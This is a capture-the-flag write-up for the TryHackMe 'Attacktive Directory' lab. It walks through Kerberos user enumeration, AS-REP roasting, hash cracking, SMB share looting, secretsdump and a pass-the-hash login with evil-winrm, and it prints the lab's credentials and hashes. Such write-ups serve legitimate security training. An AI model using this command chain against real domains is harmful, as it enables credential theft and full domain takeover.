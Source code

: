 #tryhackme #ctf
# Attacktive Directory
---

## Nmap
|Port|State|Service|Version|
|----|-----|-------|-------|
|53/tcp |  open|  domain |  Simple DNS Plus|
|80/tcp |  open|  http   |  Microsoft IIS httpd 10.0|
|88/tcp |  open|  kerberos-sec|  Microsoft Windows Kerberos (server time: 2021-08-27 05:11:19Z) |
|135/tcp|  open|  msrpc  |       Microsoft Windows RPC|
|139/tcp|  open|  netbios-ssn |  Microsoft Windows netbios-ssn |
|389/tcp|  open|  ldap   |       Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name) |
|445/tcp|  open|  microsoft-ds?| |
|464/tcp|  open|  kpasswd5? | |
|593/tcp|  open|  ncacn_http |   Microsoft Windows RPC over HTTP 1.0|
|636/tcp|  open|  tcpwrapped ||
|3389/tcp| open|  ms-wbt-server| Microsoft Terminal Services|

## Kerbrute
### User enumeration
add domain in the hosts file

download the userlist.txt and passwordlist.txt from the given links using wget
- `wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt`
- `wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt`

Enumerate users
`/path/to/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt`

- *Found users:*
	- james
	- svc-admin
	- robin
	- darkstar
	- administrator
	- backup

### ASREP Roasting
Find GetNPUsers.py
`locate GetNPUSers.py`

Run
`python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py spookysec.local/svc-admin -no-pass | tee ~/hash.txt`
to get the ticket for svc-admin and save it in a file hash.txt

- *Found TGT for svc-admin*
>\$krb5asrep\$23\$svc-admin@SPOOKYSEC.LOCAL:ad88a8a6300efed3b329545d8438d6b0$d6884c9d7f70645c5e8e2fee01fb8e9634f46267a0a39895f995c0dcd28852f53532ff7cba4c636b7b6875313253fe0bd12f260881c5730c32e7eb5898ed478ad0a70ee3aa7318505241ac41fd9e10db06dfbeada91a1ecc5661af33d6b35c8743728e337a452d756a3e1a476f49e17e8df6482b117ab7631cfb28bb695edb3150e21d654c55c658e12b016f31b830dce05c12dad38a25a7282c277f6fc9945995e2ca21b79544e0172a3ee0c425781f9aa2b3a8bb49a7dda6ff4040b5bcd76a8b4348b843c1e17ba40cbc98b385348383d7483e9c60464e3d936c3b659a69cd9f7a31fa4ba038f448c2862186c4705d3e88

Use hashcat to crack it (find hashcat mode [here](https://hashcat.net/wiki/doku.php?id=example_hashes))
`hashcat -m 18200 -a 0 hash.txt passwordlist.txt`

- *Found password: **management2005** *

Now list all the share using the user: svc-admin and password: management2005
`smbclient -L spookysec.local -U svc-admin`

- *Found 6 shares:
	- ADMIN$
	- backup
	- C$
	- IPC$
	- NETLOGON
	- SYSVOL

There is only 1 share that we can connect to: **backup**

Connect it using
`smbclient \\\\spookysec\\backup -U svc-admin`

- *Found backup_credentials.txt*
Download it to attacker machine using
`get backup_credentials.txt`

Read the contents
`cat backup_credentials.txt`
> YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

Looks like its base64 encoded. Decode it using any online decoder or `bas64 -d` command
`cat backup_credentials.txt | base64 -d`
>backup@spookysec.local:backup2517860

Use the secretsdump.py from the impacket library to dump all the password hashes associated with this account (essentially all the hashes as this is a backup of Domain Controller)

However, we are only interested in hashes for Administrator so we can gain full control of the DC

Run
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@spookysec.local -just-dc-user Administrator`

- *Found NTLM hash for Administator **0e0363213e37b94221497260b0bcb4fc** *

Install Evil-WinRM
`gem install evil-winrm`

Use evil-winrm to log in to Administrator
`evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -u Administrator -i <machine-ip>`

Now find all the flags located on desktops of all users
To see the flag
`type <filename.txt>`

Files with flags:
Administrator - root.txt
svc-admin - user.txt.txt
backup - PrivEsc.txt

- *[FLAG 1]*
- *[FLAG 2]*
- *[FLAG 3]*

---


